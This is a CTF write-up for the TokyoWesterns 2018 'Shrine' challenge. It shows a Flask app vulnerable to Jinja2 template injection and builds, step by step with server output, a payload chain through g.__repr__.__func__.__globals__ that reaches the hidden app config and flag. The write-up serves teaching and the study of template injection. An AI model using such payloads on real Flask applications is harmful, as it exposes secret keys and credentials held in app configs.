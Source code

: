 ```yaml
---
title: Shrine 
contest: TokyoWesterns CTF 4th 2018
authors: trupples
layout: writeup
---
```


## Proof of Flag
```
TWCTF{pray_f0r_sacred_jinja2}
```

## Summary
Traversing flask global context to find a reference to the app config and get the flag.

## Proof of Solving
Server code:
{% raw %}
```py
import flask
import os


app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')

@app.route('/')
def index():
    return open(__file__).read()

@app.route('/shrine/<path:shrine>')
def shrine(shrine):
    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist])+s
    return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
    app.run(debug=True)
```
{% endraw %}

This basically sends our input to the jinja template engine. We can send a
payload enclosed by double curly braces for it to be interpreted as python code.
The only problem is that we are not allowed to directly access the `config` and
`self` objects which would give us the flag immediately and we cannot use
parantheses, so no function calls.



### Solution
My plan was to look through the objects we do have access to in order to find
some “reference chain” that will get us to the `config` object. The environment
is extremely bare, we don’t even have python builtins available, so our only
chance is accessing attributes of objects.

The two objects we can use are `g` - the global app context, and `request` - the
current request object.

I ended up using `g`. The main thing to notice here is that if I simply send
`{{ g }}` as a payload the output is `<flask.g of 'app'>`. This is important
because it means that the app name is visible to `g`, so most probably the whole
app object also is.

The documentation out there isn’t that good, so I had to “dive in” the flask
source code. The `g` object has the class `_AppCtxGlobals` and that is defined
over here:

https://github.com/pallets/flask/blob/master/flask/ctx.py

The `<flask.g of 'app'>` string is created by the `g.__repr__` method:

```py
   def __repr__(self):
        top = _app_ctx_stack.top
        if top is not None:
            return '<flask.g of %r>' % top.app.name
        return object.__repr__(self)
```

We can see that the method looks up the name in `_app_ctx_stack.top.app`. The
`_app_ctx_stack` variable isn’t exposed to us directly but there is a workaround
we can do to access it. Because the `__repr__` method is able to access
`_app_ctx_stack` it needs to have a reference to it in its object (everything is
an object in python, even functions and methods). Let’s take a look at what
attributes we can use from the method (they should be listed in the `__dict__`
attribute):

`http://shrine.chal.ctf.westerns.tokyo/shrine/%7B%7B%20g.__repr__.__dict__%20%7D%7D`

```
{}
```

Oh, there’s nothing there. We actually need to take a look at the method’s class
dict to see the attributes that all methods have:

`http://shrine.chal.ctf.westerns.tokyo/shrine/%7B%7B%20g.__repr__.__class__.__dict__%20%7D%7D`

```
{'__repr__': <slot wrapper '__repr__' of 'method' objects>, '__hash__': <slot
wrapper '__hash__' of 'method' objects>, '__call__': <slot wrapper '__call__' of
'method' objects>, '__getattribute__': <slot wrapper '__getattribute__' of
'method' objects>, '__setattr__': <slot wrapper '__setattr__' of 'method'
objects>, '__delattr__': <slot wrapper '__delattr__' of 'method' objects>,
'__lt__': <slot wrapper '__lt__' of 'method' objects>, '__le__': <slot wrapper
'__le__' of 'method' objects>, '__eq__': <slot wrapper '__eq__' of 'method'
objects>, '__ne__': <slot wrapper '__ne__' of 'method' objects>, '__gt__': <slot
wrapper '__gt__' of 'method' objects>, '__ge__': <slot wrapper '__ge__' of
'method' objects>, '__get__': <slot wrapper '__get__' of 'method' objects>,
'__new__': <built-in method __new__ of type object at 0x7fdc2b3c5ee0>,
'__reduce__': <method '__reduce__' of 'method' objects>,

!!! THIS !!!
'__func__': <member '__func__' of 'method' objects>,

'__self__': <member '__self__' of 'method' objects>, '__doc__': <attribute
'__doc__' of 'method' objects>}
```

The `__func__` attribute will give us the function that gets run by the method
(a method is a function plus a reference to the class it belongs, i think).
Let’s take a look at what we can do with `__func__`:

`http://shrine.chal.ctf.westerns.tokyo/shrine/%7B%7B%20g.__repr__.__func__.__class__.__dict__%20%7D%7D`

```
{'__repr__': <slot wrapper '__repr__' of 'function' objects>, '__call__': <slot
wrapper '__call__' of 'function' objects>, '__get__': <slot wrapper '__get__' of
'function' objects>, '__new__': <built-in method __new__ of type object at
0x5562fb698de0>, '__closure__': <member '__closure__' of 'function' objects>,
'__doc__': <member '__doc__' of 'function' objects>,

!!! THIS !!!
'__globals__': <member '__globals__' of 'function' objects>,

'__module__': <member '__module__' of 'function' objects>, '__code__':
<attribute '__code__' of 'function' objects>, '__defaults__': <attribute
'__defaults__' of 'function' objects>, '__kwdefaults__': <attribute
'__kwdefaults__' of 'function' objects>, '__annotations__': <attribute
'__annotations__' of 'function' objects>, '__dict__': <attribute '__dict__' of
'function' objects>, '__name__': <attribute '__name__' of 'function' objects>,
'__qualname__': <attribute '__qualname__' of 'function' objects>}
```

YESSS! We can get a list of the global variables used by the function with:

`http://shrine.chal.ctf.westerns.tokyo/shrine/%7B%7B%20g.__repr__.__func__.__globals__%20%7D%7D`

The output is quite large but here’s the bit we’re interested in:

```
{..., '_app_ctx_stack': <werkzeug.local.LocalStack object at 0x7fe74fc7f128>, ...}
```

We have access to `_app_ctx_stack`! This is awesome. We can now access
`_app_ctx_stack.top.app.config` to get the presumably “deleted” config object:

`http://shrine.chal.ctf.westerns.tokyo/shrine/%7B%7B%20g.__repr__.__func__.__globals__._app_ctx_stack.top.app.config%20%7D%7D`

At the end of the response we can see the flag:

```
... , 'FLAG': 'TWCTF{pray_f0r_sacred_jinja2}'}>
```
